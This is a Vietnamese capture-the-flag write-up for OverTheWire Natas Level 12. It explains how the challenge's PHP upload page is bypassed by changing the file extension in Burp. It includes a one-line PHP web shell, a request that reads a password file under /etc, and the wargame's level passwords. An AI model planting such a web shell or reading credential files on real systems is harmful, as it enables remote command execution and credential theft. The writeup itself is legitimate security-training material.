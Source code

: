# Natas Level 12

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas12.natas.labs.overthewire.org**     
**Credential: natas12:*yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas12-1.png)

1. Xem source code:    

```PHP
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
?>
```

==> Đây là web có chức năng upload file và đồng thời mọi file upload lên đều được chuyển hết thành đuôi ```.jpeg``` với dòng:   
```HTML
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
```

-Khi thử upload 1 file ```tus.php``` để thử nghiệm:   
![alt text](Image/Natas12-2.png)

-Ta thử dùng Burp đổi extension từ ```n8n0jaz6rl.jpg``` thành ```n8n0jaz6rl.php``` xem:   

![alt text](Image/Natas12-3.png)

==>File upload thành công

==>Giờ ta đổi nội dung file php thành ```<?php echo system($_GET['x']); ?>``` sau đó redirect tới ```/upload/file_name.php?x=cat /etc/natas_webpass/natas13``` để lấy password

## 📌 Key: ```trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC```
